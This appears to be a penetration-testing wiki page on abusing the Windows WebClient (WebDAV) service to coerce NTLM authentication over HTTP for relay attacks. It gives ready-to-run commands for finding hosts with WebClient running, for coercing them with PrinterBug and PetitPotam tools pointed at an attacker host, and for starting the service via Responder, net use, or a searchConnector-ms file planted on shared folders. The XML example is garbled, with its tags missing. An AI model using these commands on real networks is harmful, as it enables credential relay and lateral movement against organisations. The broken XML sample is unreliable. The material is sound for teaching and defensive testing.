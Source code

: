 ```yaml
---
authors: ShutdownRepo, mpgn, sckdev
---
```


# WebClient abuse (WebDAV)

## Theory

> Web Distributed Authoring and Versioning (WebDAV) is an extension to Hypertext Transfer Protocol (HTTP) that defines how basic file functions such as copy, move, delete, and create are performed by using HTTP ([docs.microsoft.com](https://docs.microsoft.com/en-us/windows/win32/webdav/webdav-portal))

The WebClient service needs to be enabled for WebDAV-based programs and features to work. As it turns out, the WebClient service can be indirectly abused by attackers to coerce authentications. This technique needs to be combined with other coercion techniques (e.g. [PetitPotam](ms-efsr.md), [PrinterBug](ms-rprn.md)) to act as a booster for these techniques. It allows attackers to elicit authentications made over HTTP instead of SMB, hence heightening [NTLM relay](../ntlm/relay.md) capabilities.

## Practice

### Recon

Attackers can remotely enumerate systems on which the WebClient is running, which is not uncommon in organizations that use OneDrive or SharePoint or when mounting drives with a WebDAV connection string.

::: tabs

=== UNIX-like

From UNIX-like systems, this can be achieved with [webclientservicescanner](https://github.com/Hackndo/WebclientServiceScanner) (Python) or using [NetExec](https://github.com/Pennyw0rth/NetExec) (Python).

```bash
webclientservicescanner 'domain.local'/'user':'password'@'machine'
netexec smb 'TARGETS' -d 'domain' -u 'user' -p 'password' -M webdav
```


=== Windows

From Windows systems, this can be achived with [GetWebDAVStatus](https://github.com/G0ldenGunSec/GetWebDAVStatus) (C, C#)

```bash
GetWebDAVStatus.exe 'machine'
```

:::


### Abuse

Regular coercion techniques rely on the attacker forcing a remote system to authenticate to another one. The "other" system is usually an IP address, a domain or NetBIOS name. With WebClient abuse, the other system needs to be supplied in a WebDAV Connection String format.

The WebDAV Connection String format is: `\\SERVER@PORT\PATH\TO\DIR`.

> [!TIP]
> To retrieve an authenticated connection, the remote server that attacker wants to victim to be relayed to [should be considered in the intranet zone](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#getting-intranet-zoned). One way to do it is to use the NetBIOS or DNS name of the attacker machine instead of its IP address.
> 
> In order to have a valid NetBIOS name, [Responder](https://github.com/lgandx/Responder) can be used.
> 
> A heftier alternative is to do some [ADIDNS poisoning](adidns-spoofing.md) to create and use a valid DNS entry.

Below are a few examples of WebClient abuse with [PrinterBug](../print-spooler-service/printerbug.md) and [PetitPotam](ms-efsr.md).

```bash
# PrinterBug
dementor.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt"

# PetitPotam
Petitpotam.py "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
Petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
PetitPotam.exe "ATTACKER_NETBIOS_NAME@PORT/randomfile.txt" "VICTIM_IP"
```

### Start the WebClient service

On a side note, making a remote system start the WebClient service can be done in many ways

::: tabs

=== Map a WebDAV server

By mapping a remote WebDAV server. This can be done by having Responder's server up and by running the `net use` cmdlet.

```shell
# starting responder (in analyze mode to prevent poisoning)
responder --interface "eth0" --analyze
responder -I "eth0" -A

# map the drive from the target WebClient needs to be started on
net use x: http://$RESPONDER_IP/
```


=== searchConnector-ms

With a [searchConnector-ms](https://docs.microsoft.com/en-us/windows/win32/search/search-sconn-desc-schema-entry) file uploaded to widely used share within the organisation. Each time a user browses the folder, the WebClient service will start transparently.

```xml
xml version="1.0" encoding="UTF-8"?

Microsoft Outlook
false
true

{91475FE5-586B-4EBA-8D75-D17434B8CDF6}


https://whatever/


```


=== Explorer

By opening an interactive session with the target (e.g. RDP), opening the Explorer, and type something in the address bar.

:::


## Resources

[https://pentestlab.blog/2021/10/20/lateral-movement-webclient](https://pentestlab.blog/2021/10/20/lateral-movement-webclient)

[https://www.webdavsystem.com/server/access/windows](https://www.webdavsystem.com/server/access/windows)
